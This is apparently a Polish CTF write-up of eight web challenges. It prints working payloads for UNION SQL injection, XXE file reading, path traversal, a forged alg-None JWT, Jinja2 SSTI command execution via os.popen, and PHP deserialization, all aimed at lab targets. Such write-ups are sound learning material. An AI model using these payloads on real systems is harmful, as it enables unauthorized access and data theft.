 ```yaml
---
title: Zbiorczy CTF - rekrutacja BGK by sekurak
author: k1k9
categories: [web]
tags: [ctf]
---
```


# 1 - Xcross this
Po wejściu na stronę widzimy, że aplikacja pobiera od użytkownika dane, które potem wyświetla przy użyciu biblioteki MathJax ver. 2.7.0.
![alt text](/assets/posts/ctf_bgk/xcross_this1.png)

Dodatkowo jeżeli zajrzymy w kod strony zobaczymy niewidoczny link LogOut oraz skrypt w JS, który w zasadzie nic ciekawego nie robi.

Po kilku próbach exploitacji parametru XSS, przeszedłem do testowania tego tajemniczego linku:
```html
<a href="?LogOut=1" id="LogOut"></a>
```
I po przejściu na link otrzymujemy odpowiedź:
```json
{"error":"VVRGU1IxZ3pkRlJrU0VsM1ltMWtTbUpyTVdoa1IyZzJWMWM1TVZGWVNteG1VVzg5Q2c9PQo=\n"}
```
Na pierwszy rzut oka wygląda to jak base64 więc staram się to odszyfrować, okazuje się że flaga jest potrójnie zaszyfrowana basem ;)
```bash
echo "VVRGU1IxZ3pkRlJrU0VsM1ltMWtTbUpyTVdoa1IyZzJWMWM1TVZGWVNteG1VVzg5Q2c9PQo=" | base64 -d | base64 -d | base64 -d
```

# 2 - Cross site
Zadanie zostało prawdopodobnie wyłączone (nie udało mi się tam dostać), kod prowadzący do zadania 2:
```html
<!--<li>
    <input type="checkbox" id="task2" class="task-toggle">
    <label for="task2" class="task-title">2 - Cross-site</label>
    <div class="task-description">
        <p><a href="http://139.177.183.71:2000/"
                target-"_blank">Link do zadania</a></p>
    </div>
</li>-->
```

# 3 - Database
Po analizie kodu strony można zauważyć, że interesującym parametrem wydaje się być prametr ```?query=```.

Spróbowałem podać kilka typowych znaków, które mogą wywołąć błąd zapytania i okazuje się, że baza danych jest podatna po podaniu znaku ```'```, otrzymujemy wówczas komunikat: ```SQLITE_ERROR```. A więc przejdźmy do szperania w bazie.

## Sprawdzenie ilości kolumn
Po kilku minutach testowania widzę, że baza jest podatna na SQLi za pomocą ```UNION```. Więc przejdę do sprawdzenia co zawiera tabela z ofertami. W tym celu użyję polecenia:
```sql
test') UNION SELECT NULL,NULL,NULL,NULL--
```
Oczywiście NULL, zwiększamy dopóki strona nie przestanie zwracać błędu, ilość NULLi informuje nas o liczbie kolumn w tabeli.

## Ustalenie nazwy tabeli i kolumn
```sql
test') UNION SELECT (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL),NULL,NULL,NULL--
```
otrzymujemy odpowiedź:
```sql
CREATE TABLE offers ( title TEXT, text TEXT, image TEXT, hidden BOOL )
```

## Wyciągnięcie flagi
No to pozostało nam pobranie wszystkich ofert i znalezienie tej jednej ukrytej:
```sql
XD') UNION SELECT title,text,image,hidden FROM offers--
```

# 4 - External Entity
Widzimy, że flaga ukryta jest w pliku ```/tmp/flag``` i musimy użyć do tego XML. Jak sama nazwa zresztą nam sugeruje strona jest podatna na XEE (XML External Entity).
![alt text](/assets/posts/ctf_bgk/external_entity.png)

Zatem spróbujemy dostać się do pliku z flagą wykorzystując XEE:
```xml
<!DOCTYPE k1k9[<!ENTITY example SYSTEM "/tmp/flag"> ]>
<creds>
    <user>&example;</user>
    <pass>admin</pass>
</creds>
```

# 5 - deardir
Po wejściu na strone dostajemy informacje o podaniu ścieżki w parametrze file, a jak zajrzymy w kod strony to widzimy, że flaga znowu jest ukryta w pliku ```/tmp/flag```. Jest to tradycyjny path traversal (```?file=../../../tmp/flag```).

# 6 - I'm brOken'
Widzimy panel logowania a w nim mamy podane dane logowania. Po zalogowaniu się strona ustawia nam ciasteczko session, podobne do tego:
![alt text](/assets/posts/ctf_bgk/im_broken.png)

Jest to ciekawe bo biorąc pod uwagę, że mam dane logowania i ustawiane jest ciasteczko JWT sugeruje to, że tutaj trzeba szukać jakiejś dziury. 

Poszperałem w internecie i znalazłem podatność CVE-2015-9235, która w zasadzie mówi nam, że wystarczy zmienić algorytm na None i usunąć część z sygnaturą.

Tak więc tworze nowe ciasteczko:
```bash
echo -n '{"alg":"None","typ":"JWT"}' | base64 | tr -d '='
echo -n '{"username":"admin","iat":1712129895}' | base64 | tr -d '=' 
```
Obie części łączę kropką i na końcu dodaje kropkę (dalej nic nie podaje bo pomijam sygnaturę). Efekt:
```bash
eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzEyMTI5ODk1fQ.
```
Podmieniam ciasteczko na stronie i... nic. 
Okazuje się, że flaga jest ukryta w kodzie aplikacji, gdy wywołamy podatność to strona wygeneruje nam w HTML import pliku app.js i tutaj znajdziemy flagę.

# 7 - Welcome, I, you
Strona mówi nam aby podać swoje imię jako część URI: ```/greeting/<imie>```.
Z nagłówków HTTP wiem, że strona stoi na:
```HTTP
Server: Werkzeug/3.0.1 Python/3.8.18
```
Tak więc spróbujmy coś tutaj wstrzyknąć. XSSa tutaj nie ma ale mamy SSTI (Server Side Template Injection). Czyli wykorzystując Pythona i template engine Jinja2. Szybka weryfikacja ```/greeting/{{config.items()}}``` i działa, tak więc spróbujmy zrobić jakieś RCE:  ```{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}``` i mamy:

![alt text](/assets/posts/ctf_bgk/welcome_i_you.png)

Jak zrobimy ```ls -la``` to widzimy plik ```flag.txt```, który okazuje się być tym czego szukamy.

# 8 - Why s0 deserious?
No to tutaj spraw jest dużo prostsza wystarczy, że stworzymy sobie obiekt i wywołamy na nim funkcję serialize:
```php
<?php
class FileRead {
    public $file = '../flag.txt';
}

$object = new FileRead();
echo serialize($object);
?>
```
I przekażemy to jako parametr GET.